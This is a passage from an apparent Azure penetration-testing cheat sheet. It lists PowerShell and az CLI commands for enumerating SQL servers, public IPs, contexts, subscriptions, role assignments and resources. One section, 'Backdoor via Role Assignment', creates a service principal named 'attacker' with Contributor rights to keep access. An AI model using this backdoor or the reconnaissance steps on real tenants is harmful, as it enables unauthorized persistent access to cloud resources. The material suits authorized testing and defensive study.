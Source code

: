 ### SQL Enumeration

```powershell
Get-AzSqlServer
Get-AzSqlDatabase -ServerName <server> -ResourceGroupName <group>
```

### Public IPs

```powershell
Get-AzPublicIpAddress
```

### Backdoor via Role Assignment

```powershell
az ad sp create-for-rbac --name attacker --role Contributor
```

#### Account Information

List the current Azure contexts available

```powershell
Get-AzContext -ListAvailable
```

Get context details

```powershell
$context = Get-AzContext
$context.Name
$context.Account
```

List subscriptions

```powershell
Get-AzSubscription
```

Choose a subscription

```powershell
Select-AzSubscription -SubscriptionID "SubscriptionID"
```

Get the current user's role assignment

```powershell
Get-AzRoleAssignment
```

List all resources and resource groups

```powershell
Get-AzResource
Get-AzResourceGroup
```

List storage accounts
